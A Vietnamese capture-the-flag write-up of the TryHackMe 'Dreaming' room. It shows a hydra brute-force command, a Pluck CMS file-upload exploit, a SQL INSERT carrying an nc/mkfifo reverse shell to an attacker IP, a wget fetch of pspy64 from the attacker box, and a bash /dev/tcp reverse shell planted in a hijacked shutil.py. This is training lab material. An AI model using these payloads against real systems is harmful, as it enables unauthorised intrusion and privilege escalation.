



<div align="center">
    <h1>😴 TryHackMe Dreaming Writeup 🛌</h1>
</div>

</div>
<p align="center">
  
</p>

## 🚀 1. Khởi động taget


## 🔍 2. Recon

- Sử dụng `nmap` quét các cổng mở mục tiêu.


- Hai cổng được phát hiện đang mở là `22` cho dịch vụ ssh và `80` cho http.



- Truy cập vào địa chỉ mục tiêu chỉ hiển thị trang mặc địch của `apache2`.

- Sử dụng `gobuster` tìm thư mục và file ẩn. 


- Tìm được thư mục `/app`, truy cập vào thử.


- Truy cập được vào trang chủ của web `dreaming`.


- Nhấn `admin`, ta được chuyển hướng sang trang `login.php`.


- Trang này chỉ bao gồm một form nhập password. Nhập thử một mật khẩu bất kì, nhận về thông báo lỗi `Password Incorrect`.


- Tiếp tục sử dụng `gobuster` quét các thư mục và file ẩn từ đường dẫn hiện tại.

```bash
gobuster dir -u http://10.10.21.144/app/pluck-4.7.13/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,sh
```


- Tuy vậy truy cập các file kể trên cũng không thu được thông tin gì hữu ích.

## 🔑3. Khai thác sâu hơn


- Form đăng nhập kể trên chỉ yêu cầu nhập mật khẩu, có thể khả thi để brute force.

- Gửi thử request, thu được một số trường thông tin:
    - Trường nhập mật khẩu là: `cont1`
    - Trường `bogus` có thể là chống bot hoặc dummy (có thể để trống)
    - Nút submit là: `submit=Log+in`


- Sử dụng `hydra` để brute force, xây dựng được lệnh sau:

```bash
hydra -l hoang -P /usr/share/wordlists/rockyou.txt 10.10.21.144 http-post-form "/app/pluck-4.7.13/login.php:cont1=^PASS^&bogus=&submit=Log+in:Password incorrect"
```

- Trong đó, tuy form không yêu cầu username nhưng `-l` là option bắt buộc của `hydra` nên có thể sự dụng nó với giá trị bất kì.

.

- Kiểm tra thành công, thu được mật khẩu là `password`.

</div>
<p align="center">
  
</p>

- Nhập mật khẩu, đăng nhập thành công vào trang admin của `pluck CMS` https://github.com/pluck-cms/pluck.


- Phiên bản `4.7.13` đã cũ, có thể có lỗ hổng khai thác được.


- Tìm được poc với `CVE 2020-29607` cho phép upload file dẫn tới `RCE`: https://www.exploit-db.com/exploits/49909



- Tải file exploit về chạy thử.


- Tuy nhiên file python gặp một số lỗi, trong khi đó, khi đọc kĩ hơn đoạn code exploit thì nó upload một file `phar - một định dạng nén được dùng để đóng gói toàn bộ mã nguồn PHP` lên target


- Vì vậy nếu tìm được form cho phép upload file thì hoàn toàn có thể tự thực hiện.



- Tiên hành tạo một php reverse shell.


- Sau đó đóng thành file `shell.phar` và tiến hành upload lên trang web.


- Upload thành công nhấn vào biểu tượng 🔍 để truy cập file, đồng thời tạo listener trên port tương ứng.


- Thành công tạo revershell.

- Hệ thống có 3 users `Lucien`, `Death` và `Morpheus`.


- Đầu tiên, với `Lucien`, tìm được file `lucian_flag.txt` tuy nhiên không có quyền đọc.


- Tương tự với file flag trong các user khác.


- Kiểm tra các file và thư mục trong hệ thống phát hiện trong `/opt` có 2 file đặc biệt.


- Tạm để file `getDreams.py` sang một bên, `test.py` chứa thông tin đáng quan tâm hơn.

- File chứa một password `HeyLucien#@1999!`, có thể liên quan đến user `Lucien`.


- Chuyển user qua `Lucien` với password tìm được ở trên và thành công.


- Khi này đã có quyền đọc file `lucian_flag.txt`, thành công lấy được flag đầu tiên 🚩🚩🚩.


- Tiếp theo đến user `Death`. Khi kiểm tra thư mục của user này, phát hiện một file `getDreams.py` tuy nhiên không có quyền đọc.


- Nhận ra file này có tên tương tự như một file trong `/opt` và có thể đọc, có thể hai file `getDreams.py` này có nội dung giống nhau.


- Nội dung của file trên như sau:

```python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```

- Một số điểm đáng chú ý trong đoạn mã trên:

    - Kết nối tới database, sau đó sử dụng câu truy vấn `query = "SELECT dreamer, dream FROM dreams;"` để lấy dữ liệu từ cột `dreamer` và `dream` trong bảng `dreams`.

    - Sau đó dữ liệu này được f-string và lưu vào biến command `command = f"echo {dreamer} + {dream}"` và thực thi lệnh qua `subprocess.check_output()` (chạy shell).

- Điều này đồng nghĩa với việc nếu kiếm soát được đầu vào là 2 giá trị `dreamer` hoặc `dream` thì có thể thực hiện command injection.

- Bên cạnh đó khi dùng `sudo -l` để kiểm tra thì tài khoản `Lucien` có quyền được thực thi file `getDreams.py` trong thư mục `death` mà không cần mật khẩu.


- Vì vậy một khi đã chèn lệnh thành công và file `getDreams.py` trong `death` hoàn toàn giống với file ta đọc được ở trên thì hoàn toàn có thể thực thi lệnh đã chèn.

- Tuy nhiên để làm được điều này, cần phải can thiệp vào dữ liệu trong database, nhưng có thể thấy trong đoạn code trên, dbpassword của `death` đã bị `redacted`
- Vì vậy việc cần làm là phải tìm mật khẩu database tương ứng với tài khoản này hoặc một tài khoản nào khác trong hệ thống.

- User duy nhất hiện tại có thể kiểm soát được là `Lucien`. Một lần nữa kiểm tra các file trong tài khoản này thì phát hiện file `.bash_history` có thể đọc.


- Đọc file này, thu được mật khẩu `mysql` của tài khoản này là `lucien42DBPASSWORD`.


- Đăng nhập vào `mysql` bằng mật khẩu đã lấy được.


- Kiểm tra db, thấy có table `dreams` được tương tác trong đoạn code kể trên.


- Việc cần làm bây giờ, như đã nói đó là chèn command vào `dreamer` hoặc `dream`.

- Sử dụng lệnh sau:

```sql
INSERT INTO dreams (dreamer, dream) VALUES ('Hoang', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.175.20 4444 >/tmp/f)');
```

- Theo đó, tôi chèn một revershell gọi ngược lại máy attack được viết dưới dạng `$(command)` để thực thi trực tiếp reverse shell.


- Chèn command thành công, tiến hành chạy file `getDreams.py` bằng user `death` để trigger shell này.


- Thành công tạo được shell với user `death`


- Thành công lấy được Death Flag 🚩🚩🚩


- Cuối cùng, còn lại user `Morpheus`


- Kiểm tra thư mục của user này, ngoài file flag chưa thể đọc, phát hiện một file khả nghi có thể phục vụ khai thác là `restore.py`.


- File này sử dụng thư viện `shutil` để thực hiện backup file, tuy vậy nhưng đến bước này vẫn chưa thể khai thác gì vào file này.

- Kiểm tra các file thuộc group `death` có quyền ghi thì phát hiện ra có `shutil.py`, vì vậy có thể chèn payload độc hại vào thư viện này.


- Đến đây, tiếp tục sử dụng `pspy64`, là một tool hiện các `cronjob` hoặc script chạy ngầm không cần quyền root.

- Tool này không có sẵn trong máy mục tiêu, vì vậy đầu tiên tải nó về máy attacker.

``` bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```


- Sau đó tạo python server và tải nó bên phía máy mục tiêu.

```bash
wget http://10.21.175.20:2222/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```


- Tiến hành chạy `pspy64`, nhận thấy file `restore.py` đang chạy trong hệ thống.


- Xâu chuỗi lại các thông tin thu thập được, nhận thấy file `restore.py` đang được chạy với uid `1002` ứng với user `morpheus`. Trong khi đó file này sử dụng thư viện `shutil.py` mà ta có thể giả mạo.

- Vì vậy việc cần làm là chèn một reverse shell vào file `shutil.py` để chương trình tự thực thi trong file `restore.py`.

```bash
import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.21.175.20/5555 0>&1'\")`
```


- Đợi một chút cho shell kích hoạt, thành công tạo được shell với user `morpheus`.


- Thành công lấy được flag 🚩🚩🚩

 

 

=> Hoàn thành room 🔥🔥🔥

 
